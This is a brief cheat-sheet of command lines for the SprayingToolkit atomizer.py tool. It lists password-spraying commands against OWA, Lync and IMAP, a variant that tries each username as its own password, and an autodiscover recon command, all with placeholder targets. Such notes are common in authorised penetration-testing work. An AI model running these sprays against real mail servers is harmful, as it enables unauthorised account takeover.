 ### Source
https://github.com/byt3bl33d3r/SprayingToolkit  

### Passwordspray (owa, lync, imap)
```
python3 atomizer.py owa <rhost> <passwords> <userFile>
```

### Passwordspray user equals password
```
python3 atomizer.py owa <rhost> --user-as-pass <userFile>
```

### Recon
```
python3 atomizer.py owa <rhost>/autodiscover/autodiscover.xml' --recon
```

